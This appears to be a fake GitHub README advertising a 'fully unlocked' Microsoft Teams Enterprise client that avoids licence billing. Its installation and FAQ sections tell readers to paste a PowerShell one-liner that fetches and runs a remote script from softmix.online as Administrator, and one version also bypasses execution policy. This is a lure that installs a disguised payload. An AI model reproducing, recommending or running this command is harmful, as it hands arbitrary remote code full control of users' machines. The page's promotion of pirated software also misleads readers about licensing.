

<div align="center">


<br>


# Microsoft Teams Enterprise Desktop Client
**Enterprise · Meetings · Channels**
<br>
**Enterprise · Meetings · Channels**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked Microsoft Teams Enterprise — HD meetings, channel chat, live events, recordings and full admin policy suite.**

</div>

---

> Enterprise client unlocks meeting recordings, live events and admin policies — collaborate without Microsoft 365 seat billing.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

- 💬 **Team chat** — Channels, threads and file sharing without message limits.
- 📹 **Video meetings** — HD calls, backgrounds and live captions enabled.
- 📅 **Calendar sync** — Outlook integration and scheduling assistant active.
- 🔒 **Enterprise security** — Compliance, retention and admin controls included.
- 🔓 **Full features** — Recording, breakout rooms and webinars enabled.
- 🔗 **App integrations** — Power Platform and third-party connectors ready.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 4 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 4 GB free space.
</details>


TAGS
microsoft-teams, teams-enterprise, team-meetings, video-conference, channels-chat, teams-2026, office-collab, collaboration, remote-work, business-communication, enterprise-tools, workspace, microsoft-teams-enterprise, microsoft-teams-enterprise-pc, microsoft-apps
